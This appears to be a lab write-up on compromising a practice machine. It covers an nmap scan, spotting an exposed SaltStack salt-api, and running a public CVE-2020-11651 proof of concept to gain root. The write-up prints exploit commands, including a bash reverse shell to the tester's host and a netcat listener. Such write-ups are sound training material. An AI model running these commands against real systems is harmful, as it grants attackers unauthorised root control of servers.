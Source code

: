 # Recon

I do my initial scan to see which ports and services are open.

## nmapAutomator.sh Full
```
$ sudo ./nmapAutomator.sh -H twiggy.pg -t Full -o full

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-title: Home | Mezzanine
|_http-server-header: nginx/1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-title: Site doesn't have a title (application/json).
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.16.1
```

# Enumeration

## Port 8000 - nginx 1.16.1

`curl`'ing this service shows an `X-Upstream:` header set to `salt-api/3000-1`

![curl-salt-resp.png](../_resources/curl-salt-resp.png)

Checking `searchsploit` we see that there appears to be an exploit for this version.

# Exploit

I end up Googling around and test driving different exploits on GitHub, eventually settling for this one:

https://github.com/jasperla/CVE-2020-11651-poc
![373e815aa520362e3a9cfc7031aec68f.png](../_resources/373e815aa520362e3a9cfc7031aec68f.png)

`root key obtained: sxZXn5kSJ8GhLjvneaBPMAoMlbqbUNuZ2drFuheYR8r/goL8Iij0bGn7at8vI4Md1I5ESLm3+aw`

![03fdfcb00ca1d33a1fe5deb09d5677c1.png](../_resources/03fdfcb00ca1d33a1fe5deb09d5677c1.png)

`python3 exploit.py --master 192.168.70.62 --exec "ping 192.168.49.70"`

![b04030ace7803b85e7ed4c8282765e7c.png](../_resources/b04030ace7803b85e7ed4c8282765e7c.png)

`sudo tcpdump -i tun0 icmp`

![ffe57665d08820b789f52ad0d24b2996.png](../_resources/ffe57665d08820b789f52ad0d24b2996.png)

`python3 exploit.py --master 192.168.70.62 --exec "bash -i >& /dev/tcp/192.168.49.70/80 0>&1"`

![f59d31cd3ee31ca4dc9a76a562e168e8.png](../_resources/f59d31cd3ee31ca4dc9a76a562e168e8.png)

`sudo nc -nlvp 80`

We are root!

![ce6704036c74e5cab812198a9fccf58e.png](../_resources/ce6704036c74e5cab812198a9fccf58e.png)